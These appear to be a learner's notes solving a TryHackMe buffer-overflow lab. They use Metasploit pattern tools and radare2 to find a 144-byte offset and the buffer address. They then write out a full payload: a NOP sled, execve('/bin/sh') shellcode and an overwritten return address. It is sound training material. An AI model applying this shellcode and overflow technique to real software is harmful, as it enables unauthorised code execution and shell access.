


**Find offset**

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`

- Use as input for program
- Find offset of stack frame pointer (rbp)
```
> r2 -d buffer_overflow [pattern]
> aa
> dr
``` 
- Use `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [pattern found in rbp]`
  (Keep Little Endianness in mind)
- Offset of pattern is 144


**Find address of buffer**
Provide argument `AAAA` to program

```
> r2 -d buffer_overflow AAAA
> aa
> pdf @sym.copy_arg
> db [address of 'call sym.imp.puts]
> dc
> afvd
```
var var90_h seems to hold our value, so this must be the buffer

You can also find the address of the buffer by looking at the memory area around the stack pointer (radare2):
`px @rsp` 




Fill the ebp with this value:

`python -c "print(NOP * some amount + shell code (30 bytes) + random data to fill up to 144 bytes + buffer address)"`  

`python -c "print('\x90' * 90 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' + 'A' * 22 + '\x50\xe2\xfe\xff\xff\xff\xf7')"`


badchars: \x3b ---> WTF? Ask TryHackMe community?


Try it with pwntools, see this write up: https://l1ge.github.io/tryhackme_bof1/